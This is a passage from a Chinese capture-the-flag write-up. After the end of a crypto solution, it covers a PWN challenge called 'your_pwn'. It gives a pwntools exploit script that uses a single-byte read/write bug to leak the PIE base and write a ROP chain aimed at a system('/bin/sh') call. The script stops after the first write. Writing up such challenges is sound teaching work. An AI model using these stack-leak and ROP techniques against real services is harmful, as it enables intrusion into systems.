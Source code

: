 根据欧拉函数 p**4-p**3 计算 n，再计算得到 flag
![](https://i.loli.net/2019/04/23/5cbde5184e85f.png)  

## PWN
**作者：warden、wu1a**
### your_pwn

可重复利用的单字节读写的漏洞.  

![](https://i.loli.net/2019/04/23/5cbde6ec9e932.png)

先直接读取栈上的返回地址泄露`pie`基址.  
然后构造`ROP`链打印库函数地址泄露`libc`.直接调用`system(binsh);`获得`flag`.  

```python
from pwn import *

context.log_level = 'debug'
pop_rdi_ret = 0xd03
pop_rsi_r15_ret = 0xd01
#r = process("./pwn")
r = remote("1b190bf34e999d7f752a35fa9ee0d911.kr-lab.com","57856")

r.recvuntil("name:")
r.sendline("w4rd3n")

def get(p):
    i = 0
    ll = 0
    while(1):
        r.recvuntil("index\n")
        r.sendline(str(i + p))
        data = r.recvuntil("value\n")[:-17]
        data = int(data[-2:],16)
        if(i < 8):
            ll += data * (0x100 ** i)
        r.sendline(str(data))
        i += 1
        if(i % 41 == 0):
            r.recvuntil("continue(yes/no)? \n")
            r.sendline("yes")
            return ll

def write(p, x):
    i = 0
    while(1):
        r.recvuntil("index\n")
        r.sendline(str(i + p))
        r.recvuntil("value\n")
        data = 0
        if(i != 40):
            data = (x[i/8] / (0x100 ** (i % 8))) % 0x100
        r.sendline(str(data))
        i += 1
        if(i % 41 == 0):
            r.recvuntil("continue(yes/no)? \n")
            r.sendline("yes")
            return

pie = get(0x158) - 0xb11
print "pie: " + hex(pie)

write(0x158, [pie + pop_rdi_ret, pie + 0x202020, pie + 0x8B0, pie + 0xb0c, 0, 0, 0, 0])
```